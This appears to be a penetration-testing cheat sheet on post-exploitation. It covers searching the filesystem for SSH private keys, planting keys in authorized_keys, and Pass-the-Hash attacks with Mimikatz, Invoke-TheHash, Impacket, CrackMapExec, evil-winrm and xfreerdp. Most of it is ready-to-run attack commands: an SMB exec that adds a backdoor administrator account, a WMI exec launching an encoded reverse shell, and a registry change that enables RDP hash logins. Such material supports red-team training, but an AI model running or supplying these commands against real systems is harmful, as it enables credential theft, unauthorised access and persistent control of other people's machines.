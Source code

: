 ```yaml
---
description: >-
  Lateral movement is process in Penetration Testing or Red Teaming when
  attacker moves through system, impersonate users and escalation privileges
  vertically or horizontally.
---
```


# Post-Exploitation

## SSH Keys

### Looking for keys

```bash
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

* If you have access to some **private key** you could download it and use, but check if permissions to private key is <mark style="color:red;">**chmod 600**</mark>
* If you have access to <mark style="color:green;">`/.ssh/authorized_keys`</mark> file, then put your **public key** inside of this file, and then you could log in without password

```bash
ssh -i /path/to/private/keyfile user@hostname
```

## Pass The Hash

A **Pass the Hash (PTH)** attack involves an attacker using a password hash in place of the actual password for authentication. This method allows the attacker to bypass the need to decrypt the hash to retrieve the password. **PTH** attacks take advantage of the fact that the authentication protocol accepts the hash directly, as it remains unchanged for all sessions until the password is altered.

***

### Windows PTH

#### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:carni7 /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

Explanation:

* <mark style="color:blue;">**`privilege::debug`**</mark> - equivalent of admin rights
* <mark style="color:blue;">**`/user:carni7`**</mark> - user we want to impersonate
* <mark style="color:blue;">**`/rc4`**</mark> or <mark style="color:blue;">**`/NTLM`**</mark> - user's password hash. rc4 is algorithm
* <mark style="color:blue;">**`/domain`**</mark> - The domain to which the user being impersonated belongs. For a local user account, you can use the computer name, localhost, or simply a dot (.)
* <mark style="color:blue;">**`sekurlsa::pth`**</mark> - mimikatz popular module, which is used for extracting credentials from LSASS.
* <mark style="color:blue;">**`/run:cmd.exe`**</mark> - Instructions to mimikatz to run cmd after injecting hash

#### Invoke-TheHash

Besides mimikatz we could use [**Invoke-TheHash**](https://github.com/Kevin-Robertson/Invoke-TheHash) for **PTH** on Windows. This tool uses **PowerShell** functions for performing **Pass the Hash** attacks with **WMI** and **SMB**. Authentication is performed by passing an **NTLM** hash into the NTLMv2 authentication protocol.

```powershell
Import-Module .\Invoke-TheHash.psd1
```

* **SMB**

```powershell
Invoke-SMBExec -Target 13.13.13.13 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

* **WMI**

```powershell
Invoke-WMIExec -Target DC01 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "powershell -e JUSTLETSIMAGINETHISISBASE64ENCODEDPOWERSHELLREVERSESHELLCODE=="
```

***

### Linux PTH&#x20;

#### Impacket

Impacket has a lot of useful tools, but for this situtation we need only <mark style="color:blue;">**`PsExec`**</mark>. Besides that we could use also [**wmiexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [**atexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [**smbexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)**.**&#x20;

```bash
impacket-psexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
```

#### CrackMapExec

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
```

#### Evil-winrm&#x20;

```bash
evil-winrm -i 13.13.13.13 -u Administrator -H 12379N1D2YV31U20931C031
```

#### RDP

By default, Windows has disabled <mark style="color:green;">`Restricted Admin Mode`</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">`DisableRestrictedAdmin`</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:blue;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379N1D2YV31U20931C031
```
